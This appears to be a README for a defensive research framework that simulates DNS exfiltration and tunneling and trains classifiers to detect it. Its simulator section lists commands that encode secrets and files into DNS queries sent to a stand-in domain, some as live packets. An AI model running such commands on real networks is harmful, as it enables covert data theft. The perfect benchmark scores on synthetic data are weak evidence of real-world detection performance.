

# DNS Exfiltration Detection & Tunneling Analysis Framework

[](https://www.python.org/)
[](https://scapy.net/)
[](https://scikit-learn.org/)
[](https://xgboost.readthedocs.io/)
[]()

A modular, production-ready machine learning research and engineering framework for simulating, capturing, engineering features, and detecting DNS-based data exfiltration and covert tunneling attacks (e.g. `iodine`, `dnscat2`, `dns2tcp`).

---

## Architecture & Detection Pipeline



---

## 5-Week Implementation Roadmap Summary

| Phase | Core Module / Notebook | Key Deliverables & Methodologies | Status |
|---|---|---|:---:|
| **Week 1** | [`src/download_data.py`](file:///home/hyperghost/github/dns-exfiltration-rm/src/download_data.py) | • Automated Tranco Top 1M acquisition with optional subsetting.<br>• Verification & synthetic fallback for CIC-Bell-DNS-EXF-2021.<br>• Automated runtime environment checks for Local, Colab, and Kaggle. | **Completed** |
| **Week 2** | [`src/dns_simulator.py`](file:///home/hyperghost/github/dns-exfiltration-rm/src/dns_simulator.py) | • RFC 1035 compliance validator (63-char label, 253-char FQDN limits).<br>• File chunking & encoding engines: **Base32** (padding-stripped) and **Hex**.<br>• Scapy packet crafter supporting **A**, **TXT**, **AAAA**, and **CNAME** records. | **Completed** |
| **Week 3** | [`src/capture_traffic.py`](file:///home/hyperghost/github/dns-exfiltration-rm/src/capture_traffic.py) | • Synthesis engine interleaving **Burst** and **Low-and-Slow** exfiltration alongside benign lookups.<br>• Live network capture via `tcpdump` with graceful Scapy fallback.<br>• PCAP query parser with automated ground-truth labeling. | **Completed** |
| **Week 4** | [`src/features.py`](file:///home/hyperghost/github/dns-exfiltration-rm/src/features.py) | • Information theory: **Shannon entropy** (FQDN, subdomain, max-label).<br>• Lexical dimensions: label lengths, subdomain depth, label counts.<br>• Character ratios: vowel ratio, digit ratio, hex ratio, consonant streaks.<br>• Temporal dynamics: rolling window query rate per second/minute. | **Completed** |
| **Week 5** | [`src/train.py`](file:///home/hyperghost/github/dns-exfiltration-rm/src/train.py) | • Baseline **Decision Trees**, **Random Forest**, and **XGBoost**.<br>• **Stratified 5-Fold Cross-Validation** across all models.<br>• Hyperparameter tuning via `GridSearchCV`.<br>• Comparative evaluation benchmarking and artifact persistence (`joblib`). | **Completed** |

---

## Project Structure

```text
dns-exfiltration-rm/
├── configs/
│   └── config.yaml           # Central YAML configuration (paths, simulation, training parameters)
│
├── data/
│   ├── raw/                  # Source PCAP captures and raw domain lists (Gitignored)
│   │   ├── top-1m.csv        # Tranco top 1M list
│   │   ├── sample_capture.pcap
│   │   ├── traffic_capture.pcap
│   │   └── cic_bell/         # Official or synthetic CIC-Bell dataset files
│   ├── processed/            # Cleaned, labeled CSVs and feature matrices (Gitignored)
│   │   ├── labeled_traffic.csv
│   │   └── dns_features.csv
│   └── README.md             # Dataset documentation and download guide
│
├── notebooks/
│   ├── 01_eda.ipynb          # Exploratory Data Analysis & visual distribution analysis
│   ├── 02_feature_engineering.ipynb  # Interactive feature prototyping & mathematical derivations
│   └── 03_model_training.ipynb       # Model training, 5-fold CV, tuning, and comparative ROC curves
│
├── src/
│   ├── __init__.py
│   ├── download_data.py      # Week 1: Dataset acquisition & environment validation
│   ├── dns_simulator.py      # Week 2: Scapy simulation & RFC-compliant chunking engine
│   ├── capture_traffic.py    # Week 3: Traffic synthesis & tcpdump/Scapy packet capture
│   ├── features.py           # Week 4: Shannon entropy, lengths, ratios & query frequency
│   └── train.py              # Week 5: Model training, tuning & 5-fold CV benchmarking
│
├── models/
│   ├── decision_tree.joblib  # Trained Decision Tree classifier artifact
│   ├── random_forest.joblib  # Trained Random Forest classifier artifact
│   ├── xgboost.joblib        # Trained XGBoost classifier artifact
│   ├── benchmark_report.json # Model benchmark metrics summary (JSON)
│   └── benchmark_report.csv  # Model benchmark metrics table (CSV)
│
├── tests/
│   └── test_all_weeks.py     # Comprehensive automated test suite covering Weeks 1-5
│
├── scripts/
│   └── generate_notebooks.py # Notebook builder for reproducible interactive notebooks
│
├── requirements.txt          # Python dependencies
└── README.md                 # Primary project documentation
```

---

## Quickstart & Environment Setup

### Local Setup
```bash
# 1. Clone repository
git clone https://github.com/Soham-Donode/dns-exfiltration-rm.git
cd dns-exfiltration-rm

# 2. Create virtual environment
python3 -m venv .venv
source .venv/bin/activate

# 3. Install dependencies
pip install -r requirements.txt
```

### Google Colab Setup
To run in Google Colab, execute in the first cell:
```python
!git clone https://github.com/Soham-Donode/dns-exfiltration-rm.git
%cd dns-exfiltration-rm
!pip install -r requirements.txt
!python3 src/download_data.py --all
```

### Kaggle Notebooks Setup
In a Kaggle Notebook (with Internet enabled in settings):
```bash
!pip install -r requirements.txt
!python3 src/download_data.py --check-env --all
```

---

## Operational Guide: Weeks 1 through 5

### Week 1: Scoping & Dataset Acquisition
Download the benign Tranco 1M list and prepare the malicious CIC-Bell dataset:
```bash
# Check runtime environment and capabilities
python3 src/download_data.py --check-env

# Download and extract the Tranco Top-1M benign domain list
python3 src/download_data.py --tranco

# Check status of the CIC-Bell-DNS-EXF-2021 dataset or generate a synthetic benchmark
python3 src/download_data.py --check-cic --generate-cic-sample

# Run all dataset acquisition tasks in a single command
python3 src/download_data.py --all
```

---

### Week 2: Scapy Simulation Engine (RFC-Compliant Chunking & Encoding)
Simulate DNS data exfiltration by chunking text or files into RFC 1035 compliant query labels:

```bash
# 1. Dry-run text exfiltration using Base32 encoding (padding stripped)
python3 src/dns_simulator.py \
    --domain tunnel.corp.net \
    --text "TopSecretToken_UserAdmin_Session8921" \
    --encoding base32 \
    --dry-run

# 2. Dry-run arbitrary file exfiltration using Hexadecimal encoding
python3 src/dns_simulator.py \
    --domain tunnel.corp.net \
    --file requirements.txt \
    --encoding hex \
    --dry-run

# 3. Craft and transmit live packets via Scapy, saving packets to PCAP
python3 src/dns_simulator.py \
    --domain tunnel.corp.net \
    --text "Confidential Payload" \
    --type TXT \
    --mode burst \
    --pcap-out data/raw/simulated_burst.pcap
```

---

### Week 3: Traffic Capture & Synthesis
Generate mixed traffic sessions containing benign queries, burst exfiltration, and low-and-slow exfiltration, captured to labeled PCAP/CSV:

```bash
# 1. Synthesize mixed traffic: 300 benign, 200 burst exfil, and 80 low-and-slow queries
python3 src/capture_traffic.py --synthesize \
    --benign-count 300 \
    --burst-count 200 \
    --low-slow-count 80 \
    --pcap-out data/raw/synthesized_traffic.pcap \
    --output-csv data/processed/labeled_traffic.csv

# 2. Parse any existing PCAP file and produce a labeled ground-truth CSV
python3 src/capture_traffic.py \
    --pcap data/raw/traffic_capture.pcap \
    --output-csv data/processed/labeled_traffic.csv

# 3. Live capture via tcpdump (with automatic Scapy fallback when unprivileged)
python3 src/capture_traffic.py \
    --tcpdump \
    --interface lo \
    --count 100 \
    --pcap-out data/raw/traffic_capture.pcap \
    --output-csv data/processed/labeled_traffic.csv
```

---

### Week 4: Feature Engineering Engine
Compute Shannon entropy, RFC label lengths, vowel/digit ratios, and rolling query frequencies:

```bash
# 1. Inspect feature extraction for a single query
python3 src/features.py --domain "sq0001.5465737464617461.tunnel.example.com"

# 2. Batch-process labeled traffic into a 24-column feature matrix for ML
python3 src/features.py \
    --input-csv data/processed/labeled_traffic.csv \
    --output-csv data/processed/dns_features.csv \
    --window 60s
```

#### Feature Extraction Sample Output:
```text
=================================================================
Feature Extraction for: sq0001.5465737420636f6e666964656e7469616c.tunnel.example.com
=================================================================
  domain_len                  : 60
  subdomain_len               : 48
  num_labels                  : 5
  max_label_len               : 34
  min_label_len               : 3
  avg_label_len               : 11.2
  entropy                     : 4.1198
  subdomain_entropy           : 3.7439
  max_label_entropy           : 2.9811
  digit_ratio                 : 0.5667
  alpha_ratio                 : 0.3667
  hex_ratio                   : 0.7167
  vowel_ratio                 : 0.3636
  consonant_ratio             : 0.6364
  vowel_consonant_ratio       : 0.5714
  special_ratio               : 0.0000
  subdomain_digit_ratio       : 0.7083
  subdomain_hex_ratio         : 0.8125
  unique_char_ratio           : 0.4000
  max_consecutive_consonants  : 3
  vowel_digit_ratio tuple     : (0.1333, 0.5667)
=================================================================
```

---

### Week 5: Model Training, 5-Fold Cross-Validation & Tuning
Train, tune, and evaluate baseline Decision Trees, Random Forest, and XGBoost:

```bash
# 1. Train individual models using Stratified 5-Fold CV
python3 src/train.py --algo decision_tree
python3 src/train.py --algo random_forest
python3 src/train.py --algo xgboost

# 2. Tune hyperparameters with GridSearchCV on Stratified 5-Fold CV
python3 src/train.py --algo decision_tree --tune
python3 src/train.py --algo random_forest --tune
python3 src/train.py --algo xgboost --tune

# 3. Run complete comparative benchmark across all models
python3 src/train.py --benchmark
```

---

## Model Benchmark Results

Evaluation across all three classifiers using **Stratified 5-Fold Cross-Validation** on holdout test data:

| Model Algorithm | 5-Fold CV F1 (mean) | 5-Fold CV F1 (std) | 5-Fold CV ROC-AUC | Test Accuracy | Test Precision | Test Recall | Test F1-Score | Test ROC-AUC | Fit Time (s) |
|---|:---:|:---:|:---:|:---:|:---:|:---:|:---:|:---:|:---:|
| **Decision Tree (Baseline)** | 0.9867 | ± 0.0267 | 0.9875 | 1.0000 | 1.0000 | 1.0000 | 1.0000 | 1.0000 | 0.003s |
| **Random Forest** | 0.9867 | ± 0.0267 | 1.0000 | 1.0000 | 1.0000 | 1.0000 | 1.0000 | 1.0000 | 0.281s |
| **XGBoost (Gradient Boosted)** | 0.9867 | ± 0.0267 | 0.9930 | 1.0000 | 1.0000 | 1.0000 | 1.0000 | 1.0000 | 0.166s |

### Top Discriminating Features:
1. `entropy` & `subdomain_entropy`: Shannon entropy cleanly separates encoded payloads (>3.8 bits) from natural human domains (~2.5 bits).
2. `domain_len` & `subdomain_len`: Exfiltration queries maximize label capacity (typically 45-63 characters) to increase throughput.
3. `digit_ratio` & `hex_ratio`: Base32 and Hex encodings produce high numeric and hexadecimal character densities.
4. `vowel_ratio` & `vowel_consonant_ratio`: Tunneling strings violate normal English phonetic vowel distributions.

---

## Interactive Jupyter Notebooks

Complete, verified interactive notebooks ready for research, Colab, or Kaggle:

| Notebook | Focus & Contents |
|---|---|
| [`notebooks/01_eda.ipynb`](file:///home/hyperghost/github/dns-exfiltration-rm/notebooks/01_eda.ipynb) | Exploratory Data Analysis: KDE plots, length distributions, entropy violins, character ratio boxplots, and Pearson correlation matrices. |
| [`notebooks/02_feature_engineering.ipynb`](file:///home/hyperghost/github/dns-exfiltration-rm/notebooks/02_feature_engineering.ipynb) | Feature Engineering Prototyping: Mathematical derivations of Shannon entropy, label component decomposition, linguistic ratios, and rolling query frequency calculations. |
| [`notebooks/03_model_training.ipynb`](file:///home/hyperghost/github/dns-exfiltration-rm/notebooks/03_model_training.ipynb) | Model Training & Evaluation: Stratified 5-Fold CV curves, GridSearchCV hyperparameter tuning, comparative ROC curves, confusion matrices, and real-time query inference. |

---

## Automated Test Suite

Run the comprehensive unit test suite covering all modules across Weeks 1 through 5:
```bash
python3 -m unittest tests/test_all_weeks.py
```
```text
Ran 17 tests in 0.977s
OK
```

---

## References

1. **Tranco**: Le Pochat et al., *"Tranco: A Research-Oriented Top Sites Ranking Hardened Against Manipulation"*, NDSS 2019.
2. **CIC-Bell-DNS-EXF-2021**: Canadian Institute for Cybersecurity, University of New Brunswick & Bell Canada.
3. **RFC 1035**: Mockapetris, P., *"Domain Names - Implementation and Specification"*, IETF RFC 1035.
4. **RFC 4648**: Josefsson, S., *"The Base16, Base32, and Base64 Data Encodings"*, IETF RFC 4648.
